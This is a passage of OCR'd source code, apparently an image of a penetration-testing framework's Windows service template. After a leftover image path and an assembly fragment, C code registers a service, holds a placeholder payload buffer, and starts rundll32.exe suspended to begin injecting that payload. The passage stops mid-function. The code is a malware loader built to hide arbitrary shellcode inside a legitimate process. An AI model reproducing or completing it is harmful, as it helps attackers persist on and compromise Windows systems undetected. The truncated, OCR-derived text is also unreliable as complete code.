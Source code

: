 ```nasm
	payload endp
end
```

## 02 - EXE-Service

```c
#define WIN32_LEAN_AND_MEAN
#include <windows.h>

#define PAYLOAD_SIZE	8192

char cServiceName[32] = "SERVICENAME";

char bPayload[PAYLOAD_SIZE] = "PAYLOAD:";

SERVICE_STATUS ss;

SERVICE_STATUS_HANDLE hStatus = NULL;

/*
 *
 */
BOOL ServiceHandler( DWORD dwControl ) {
	if( dwControl == SERVICE_CONTROL_STOP || dwControl == SERVICE_CONTROL_SHUTDOWN ) {
		ss.dwWin32ExitCode = 0;
		ss.dwCurrentState  = SERVICE_STOPPED;
	}
	return SetServiceStatus( hStatus, &ss );
}

/*
 *
 */
VOID ServiceMain( DWORD dwNumServicesArgs, LPSTR * lpServiceArgVectors ) {
	CONTEXT Context;
	STARTUPINFO si;
	PROCESS_INFORMATION pi;
	LPVOID lpPayload = NULL;

	ZeroMemory( &ss, sizeof(SERVICE_STATUS) );
	ZeroMemory( &si, sizeof(STARTUPINFO) );
	ZeroMemory( &pi, sizeof(PROCESS_INFORMATION) );

	si.cb = sizeof(STARTUPINFO);

	ss.dwServiceType = SERVICE_WIN32_SHARE_PROCESS;

	ss.dwCurrentState = SERVICE_START_PENDING;

	ss.dwControlsAccepted = SERVICE_ACCEPT_STOP|SERVICE_ACCEPT_SHUTDOWN;

	hStatus = RegisterServiceCtrlHandler( (LPCSTR)&cServiceName, (LPHANDLER_FUNCTION)ServiceHandler );
  
	if ( hStatus ) {
		ss.dwCurrentState = SERVICE_RUNNING;

		SetServiceStatus( hStatus, &ss );

		if( CreateProcess( NULL, "rundll32.exe", NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi ) ) {
			Context.ContextFlags = CONTEXT_FULL;
```